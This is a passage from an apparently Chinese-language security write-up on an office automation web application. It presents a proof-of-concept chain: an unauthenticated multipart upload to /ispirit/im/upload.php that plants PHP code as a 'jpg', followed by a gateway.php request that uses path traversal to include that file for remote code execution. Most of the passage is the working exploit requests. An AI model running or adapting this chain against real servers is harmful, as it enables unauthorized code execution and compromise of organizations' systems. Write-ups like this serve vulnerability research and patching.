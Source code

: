 [![](https://p0.ssl.qhimg.com/t01be08ce949bb48856.png)](https://p0.ssl.qhimg.com/t01be08ce949bb48856.png)

poc:

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 10.73.147.46:80
Content-Length: 494
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBwVAwV3O4sifyhr3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="P"


------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundaryBwVAwV3O4sifyhr3
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

&lt;?php
var_dump(md5(123));
?&gt;
------WebKitFormBoundaryBwVAwV3O4sifyhr3--

```

[![](https://p4.ssl.qhimg.com/t0142652b1b34f59472.png)](https://p4.ssl.qhimg.com/t0142652b1b34f59472.png)

[![](https://p0.ssl.qhimg.com/t017a387c8d2d6e39c0.png)](https://p0.ssl.qhimg.com/t017a387c8d2d6e39c0.png)

生成的地址: `/attach/im/2007/1859500039.jpg`(这个生成文件所在的目录并不是web目录，而是与web同级的)

### <a class="reference-link" name="0x4.3%20%E4%B8%A4%E8%80%85%E7%BB%93%E5%90%88RCE"></a>0x4.3 两者结合RCE

```
http://10.73.147.46/ispirit/interface/gateway.php?json=`{`"url":"ispirit/../../attach/im/2007/1859500039.jpg"`}`
```
